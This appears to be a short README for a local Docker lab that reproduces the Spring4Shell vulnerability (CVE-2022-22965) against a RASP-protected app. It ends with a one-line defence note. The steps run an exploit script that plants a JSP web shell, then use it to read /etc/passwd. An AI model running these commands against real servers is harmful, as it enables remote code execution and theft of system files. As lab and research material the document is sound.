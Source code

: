 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run -v $(pwd)/contrast-config.yaml:/opt/agent/contrast-config.yaml  -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt
6. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="cmd"
7. curl "http://localhost:8080/cmd.jsp?cmd=cat%20/etc/passwd"


**Defenses**
- RASP Solutions should work as close as possible to the native FFI call, otherwise it will be bypassed through reflection.